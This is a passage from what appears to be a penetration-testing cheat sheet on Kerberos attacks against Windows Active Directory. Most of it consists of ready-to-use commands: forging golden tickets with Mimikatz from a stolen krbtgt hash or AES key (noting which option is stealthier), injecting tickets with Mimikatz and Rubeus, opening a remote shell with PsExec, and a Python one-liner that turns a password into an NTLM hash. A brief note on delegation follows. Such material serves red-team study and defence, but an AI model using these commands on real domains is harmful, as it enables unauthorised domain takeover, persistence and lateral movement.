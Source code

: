 ### Windows \(internal\)

With [Mimikatz](https://github.com/gentilkiwi/mimikatz):

```text
# To generate the TGT with NTLM
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /rc4:<krbtgt_ntlm_hash> /user:<user_name>

# To generate the TGT with AES 128 key
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes128:<krbtgt_aes128_key> /user:<user_name>

# To generate the TGT with AES 256 key (more secure encryption, probably more stealth due is the used by default by Microsoft)
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes256:<krbtgt_aes256_key> /user:<user_name>

# Inject TGT with Mimikatz
mimikatz # kerberos::ptt <ticket_kirbi_file>
```

Inject ticket with [Rubeus](https://github.com/GhostPack/Rubeus):

```text
.\Rubeus.exe ptt /ticket:<ticket_kirbi_file>
```

Execute a cmd in the remote machine with [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec):

```text
.\PsExec.exe -accepteula \\<remote_hostname> cmd
```

## Misc

To get NTLM from password:

```text
python -c 'import hashlib,binascii; print binascii.hexlify(hashlib.new("md4", "<password>".encode("utf-16le")).digest())'
```

## Delegation

> Allows a service impersonate the user to interact with a second service, with the privileges and permissions of the user
>
> * If a user has delegation capabilities, all its services \(and processes\) have delegation capabilities.
> * KDC only worries about the user who is talking to, not the process.
> * Any process belonging to the same user can perform the same actions in Kerberos, regardless of whether it is a service or not.
> * Unable to delegate if  NotDelegated \(or ADS\_UF\_NOT\_DELEGATED\) flag is set in the User-Account-Control attribute of the user account or user in Protected Users group.

